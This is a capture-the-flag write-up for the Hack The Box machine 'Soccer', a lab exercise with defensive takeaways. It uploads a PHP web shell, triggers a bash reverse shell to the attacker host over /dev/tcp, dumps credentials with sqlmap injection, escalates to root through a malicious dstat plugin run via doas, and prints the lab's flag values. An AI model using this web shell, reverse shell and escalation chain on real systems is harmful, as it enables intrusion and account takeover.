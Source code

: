 # HTB: Soccer

## Engagement Overview
**Target:** Soccer
**Box IP:** 10.10.11.194
**Date:** 2025-09-06
**Attacker Host:** 10.10.14.13  

---

### Objectives
- Obtain initial foothold on the web server.
- Escalate to a user shell and capture `user.txt`.
- Escalate to root and capture `root.txt`.

---

## Service Enumeration

### Nmap
```bash
nmap -sC -sV -oA soccer.init 10.10.11.194
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
9091/tcp open  http
```
- Port 80 redirects to `http://soccer.htb/`
- Gobuster found `/tiny` (Tiny File Manager).

### Directory Brute Force
```bash
gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```
```
/tiny (301)
```

---

## Initial Access

### Web Shell Upload via Tiny File Manager

shell.php:

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
# Uploaded shell.php in /tiny
curl -X POST -F "file=@shell.php" http://soccer.htb/tiny/uploads/
```

Burp suite repeater requst change to post:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/9091 0>&1'

# encode with ^u

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.13%3a9091+0>%261'
```

Triggered shell:

```bash
nc -lvnp 9091
# Then accessed http://soccer.htb/tiny/uploads/shell.php
```

Upgraded TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg


export TERM=xterm
```

### Local Service Recon
```bash
ss -ltnp
```
```
127.0.0.1:3306  (MySQL)
127.0.0.1:3000  (Node/Express)
0.0.0.0:80      (nginx)
```

### Nginx vhosts
```
soccer.htb  → nginx root
soc-player.soccer.htb  → proxy to localhost:3000
```

---

## SQL Injection → Credential Extraction

### Identifying Injection
During browsing of `soc-player.soccer.htb`, ticket request form was tested. Using **BurpSuite**, intercepted requests showed injectable parameters.

### Verifying Injection
```bash
sqlmap -r login.req --batch --dbs
```
```
available databases [2]:
[*] information_schema
[*] soccer_db
```

### Extracting Tables & Data
```bash
sqlmap -r login.req -D soccer_db --tables
sqlmap -r login.req -D soccer_db -T users --dump
```
```
+----+----------+-------------------+
| id | user     | password          |
+----+----------+-------------------+
| 1  | player   | PlayerPass123!    |
+----+----------+-------------------+
```

This provided valid credentials for SSH.

---

## User Access

### SSH as Player
Recovered `player` credentials from app configs and logged in:
```bash
ssh player@10.10.11.194
```

Captured user flag:
```bash
cat user.txt
a92099f7e4ca0b2f7d73233c1ffe65bf
```

---

## Privilege Escalation

### Misconfigured `doas` Rule
```bash
cat /usr/local/etc/doas.conf
```
```
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat Plugin Path
```bash
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
doas /usr/bin/dstat --exploit
```

Got root shell:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

Captured root flag:
```bash
cat /root/root.txt
46001e33362eb61261de64adff98cafc
```

---

## House Cleaning
- Removed `shell.php` from `/var/www/html/tiny/uploads/`
- Deleted malicious plugin `/usr/local/share/dstat/dstat_exploit.py`

---

## Tools Utilized
- `nmap`, `gobuster`, `curl`
- `netcat`, `python3` pty for TTY
- `doas`, `dstat` (abused for escalation)

---

## Key Takeaways
- **Tiny File Manager** upload function allowed arbitrary PHP upload → foothold.
- **doas misconfiguration** enabled root execution of `dstat`; unsafe due to plugin loading.
- Defense should restrict access to admin panels, disable PHP execution in uploads, and audit privilege escalation configs.
